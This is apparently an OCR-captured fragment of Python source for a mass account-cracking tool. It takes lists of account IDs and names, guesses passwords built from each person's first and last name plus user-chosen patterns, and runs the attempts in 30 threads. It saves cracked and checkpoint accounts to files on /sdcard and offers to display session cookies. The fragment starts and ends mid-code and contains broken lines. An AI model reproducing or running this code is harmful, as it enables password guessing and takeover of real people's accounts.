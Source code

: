                 open('/sdcard/hannan-cp.txt','a').write(f'{acc} • {pword}\n')
                break
            else:
                continue
        loop += 1    
      except exception as e: time.sleep(10)

    if m=='2':
        with speed(max_workers=30) as speede:
             speede.map(start2, accounts)
    elif m=='1':
       with speed(max_workers=30) as speede:
            speede.map(start, accounts)
    else:
       with speed(max_workers=30) as speede:
            speede.map(start, accounts)
    exit()  
      



####@-----random-----@####
def andom():
    okacc = []
    cpacc = []
    totalpass = []
    os.system("clear")
    print(logo)
    if 'o': 
        tpp = input(f'{oo("?")}total password? : ')
        totalpass.append('first')
        totalpass.append('last')
        if tpp.isnumeric():
            ex = 'firstlast first123 last123'
            print(f'{oo("+")}{ex} (etc)')
            for x in range(int(tpp)):
                totalpass.append(input(f'{oo(x+1)}password : '))
            pass
        else:
            print(f"{oo('!')}numeric only")
            exit()
    print(f'\n'+oo("1")+'method 1 (updated)\n'+oo("2")+'method 2 (updated)')
    m=input(f"{oo('!')}input : ") 
    print('\n'+oo("?")+'do you want to show cp ids?(y/n)')
    cpok=input(f"{oo('!')}input : ")
    print('\n'+oo("?")+'do you want to show cookies?(y/n)')
    c=input(f"{oo('!')}input : ")
    os.system("clear")
    print(logo) 
    print('\033[1;93m='*25)
    print(f'{oo("✓")}total ids : \033[1;92m'+str(len(accounts)))
    print(f"{oo('-')}wait as you can :)")
    print(f"{oo('•')}/sdcard/hannan-ok.txt")
    print('\033[1;93m='*25)
    print()    
    def start(user):
     try:
        global loop,accounts
        r = requests.session()
        user = user.strip()
        acc, name = user.split("|")
        first = name.rsplit(" ")[0]
        try:
            last = name.rsplit(" ")[1]
        except:
            last = first